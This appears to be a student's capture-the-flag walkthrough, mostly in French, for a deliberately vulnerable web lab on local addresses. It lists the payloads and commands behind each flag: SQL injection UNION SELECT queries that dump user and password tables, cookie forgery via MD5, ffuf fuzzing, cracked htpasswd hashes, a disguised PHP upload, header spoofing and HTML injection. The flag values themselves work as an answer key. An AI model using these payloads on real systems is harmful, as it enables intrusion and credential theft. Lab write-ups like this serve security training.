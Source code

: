 #+TITLE: Temp
*  Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 et veut dire false
Remplacons le cookie par true
echo -n true | md5
~flag - df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3~

* Search image :

ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=searchimg&id=FUZZ&Submit=Submit#" -fs 2410
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT title,comment FROM list_images
echo 'albatroz' | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Search users :
for ((i=0;i<1000;i++)) ; do echo $i >> payload.txt; done
ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=member&id=FUZZ&Submit=Submit#" -fs 2462
1 OR 1
5 UNION SELECT database(),2
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT user_id,planet FROM users
5 UNION SELECT user_id,countersign FROM users
5 UNION SELECT user_id,commentaire FROM users
echo 'fortytwo' | sha2
~flag - 3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5~

* Login :
5 UNION SELECT username,password FROM Member_Brute_Force.db_default
admin - shadow
~flag - b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~

* Fuzzing :
ffuf -w common.txt:FUZZ -u http://192.168.56.105:80/FUZZ -fs 6892
url/whatever - htpasswd http://192.168.56.102/whatever/htpasswdd
root:8621ffdbc5698829397d97767ac13db3 - dragon
go to url/admin
~flag - d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff~

url/robots.txt
url/.hidden

* Member survey :

modifier les parametres post dans le browser en mettant 42
~flag - 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa~

* Feedback :
~flag - 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e~

* Hidden directory :
crawl le directory avec crawl.sh
grep -v "gauche\|droite\|dessus\|dessous\|aussi\|bon\|non" result.txt
~flag - 99dde1d35d1fdd283924d84e6d9f1d820~

* Upload image :
Upload un fichier .php, remplacer le content type de la requete par image/jpeg
~flag - 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8~

* Request from :
You must comming from : "https://www.nsa.gov/" to go to the next step
Changer le referrer de la requete et le user agent
~flag - f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188~

* Html-src :
http://192.168.56.105/?page=media&src=nsa
le src est remplacable par du code html
~flag - 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d~
ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'

 :: Method           : GET
 :: URL              : http://192.168.56.102/FUZZ
 :: Wordlist         : FUZZ: /Users/paure/tmp/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# directory-list-2.3-medium.txt [Status: 200, Size: 6892, Words: 616, Lines: 130]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
images                  [Status: 301, Size: 184, Words: 6, Lines: 8]
# Copyright 2007 James Fisher [Status: 200, Size: 6892, Words: 616, Lines: 130]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
admin                   [Status: 301, Size: 184, Words: 6, Lines: 8]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# on at least 2 different hosts [Status: 200, Size: 6892, Words: 616, Lines: 130]
audio                   [Status: 301, Size: 184, Words: 6, Lines: 8]
css                     [Status: 301, Size: 184, Words: 6, Lines: 8]
includes                [Status: 301, Size: 184, Words: 6, Lines: 8]
js                      [Status: 301, Size: 184, Words: 6, Lines: 8]
# This work is licensed under the Creative Commons [Status: 200, Size: 6892, Words: 616, Lines: 130]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 6892, Words: 616, Lines: 130]
fonts                   [Status: 301, Size: 184, Words: 6, Lines: 8]
errors                  [Status: 301, Size: 184, Words: 6, Lines: 8]
whatever                [Status: 301, Size: 184, Words: 6, Lines: 8]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
:: Progress: [220560/220560] :: Job [1/1] :: 2313 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
